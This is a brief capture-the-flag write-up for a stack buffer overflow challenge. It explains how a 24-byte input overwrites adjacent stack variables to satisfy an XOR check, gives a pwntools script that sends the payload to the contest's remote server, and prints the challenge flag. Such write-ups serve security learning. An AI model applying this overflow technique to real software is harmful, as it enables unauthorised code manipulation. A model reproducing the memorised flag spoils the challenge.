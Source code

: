![img/dfv_0.png](img/dfv_0.png)

Analyzing the main we can see that it takes an input and saves it in "s1". 
Then performs the XOR of the first 8 characters of our input with "v7". If the result equals "v6" and the entered string is different from "COOLDAV", it prints the flag.
The input does not have a fixed length and "s1", "v6" and "v7" are all on the stack in successive positions. 
We can therefore insert 24 bytes in input that will also overwrite v6 and v7, choosing values that satisfy the condition: v6 == v7 ^ (* s1)

Exploit:
```python
from pwn import *

payload = (("gggggggg").encode())
payload += p64(0x101010101010101)
payload += (("ffffffff").encode())

p = remote('pwn.ctf.b01lers.com', 1001)
print(p.recvuntil('> ').decode())
p.sendline(payload)
p.interactive()
```

# FLAG
```
pctf{sp4c3_l1n3s_R_sh0r7!}
```
